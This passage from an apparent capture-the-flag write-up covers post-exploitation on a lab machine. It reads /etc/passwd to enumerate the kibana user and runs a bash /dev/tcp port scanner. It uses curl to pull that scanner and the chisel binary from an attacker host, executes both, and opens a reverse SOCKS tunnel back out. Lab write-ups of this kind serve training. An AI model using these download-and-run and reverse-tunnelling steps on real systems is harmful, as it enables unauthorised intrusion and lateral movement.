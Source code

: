 As we can see, we do not have writing permission on any of the files listed, but we enumerated the user `kibana`:
```bash
[security@haystack ~]$ cat /etc/passwd | grep kibana
kibana:x:994:992:kibana service user:/home/kibana:/sbin/nologin
```

### Kibana user
So first we need to obtain access to the kibana user, to do so, we can look up kibana on [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/5601-pentesting-kibana). As the port 5601 was not detected in the first nmap scan, we can use the handmade script:
```bash
❯ cat portScan
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: portScan
       │ Size: 337 B
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ #!/bin/bash
   2   │ 
   3   │ if [ $1 ];then
   4   │   ip_addr=$1
   5   │   echo -e "\n[*] Testing all open ports on $ip_addr\n"
   6   │   for port in `seq 1 65535`; do
   7   │     timeout 1 bash -c "echo '' > /dev/tcp/$ip_addr/$port" 2>/dev/null && e
       │ cho -e "\t[+] Port $port - open" &
   8   │   done
   9   │   echo -e "\n[*] Tested 65535 Ports"
  10   │ else
  11   │   echo -e "Usage: $0 <ip-address>\n"  
  12   │   exit 1
  13   │ fi
───────┴───────────────────────────────────────────────────────────────────────────
```
Upload it and check which ports are open:
```bash
[security@haystack ~]$ curl http://10.10.14.15:4444/portScan -s --output portScan
[security@haystack ~]$ chmod +x portScan 
[security@haystack ~]$ ./portScan 10.10.10.115
[security@haystack ~]$ ./portScan 127.0.0.1

[*] Testing all open ports on 127.0.0.1

	[+] Port 22 - open
	[+] Port 80 - open
	[+] Port 5601 - open
	[+] Port 9000 - open
	[+] Port 9200 - open
```
We discovered that port 5601 is open.
#### Chisel port forwarding
We can use the chisel tool to forward a port to a remote host.
```bash
# Client before connection
[security@haystack ~]$ curl http://10.10.14.15:4444/chisel -s --output chisel
[security@haystack ~]$ chmod +x chisel 
[security@haystack ~]$ ./chisel client 10.10.14.15:4444 R:socks
# Client after connection
2022/06/10 11:48:58 client: Connecting to ws://10.10.14.15:4444
2022/06/10 11:48:58 client: Connected (Latency 54.835288ms)
# Server before connection
❯ chisel server --port 4444 --reverse
2022/06/10 17:48:49 server: Reverse tunnelling enabled
2022/06/10 17:48:49 server: Fingerprint dibMvRs+HGy1JK2PvLJhKnF2oAM89At4fe77xdHkxmM=
2022/06/10 17:48:49 server: Listening on http://0.0.0.0:4444
```
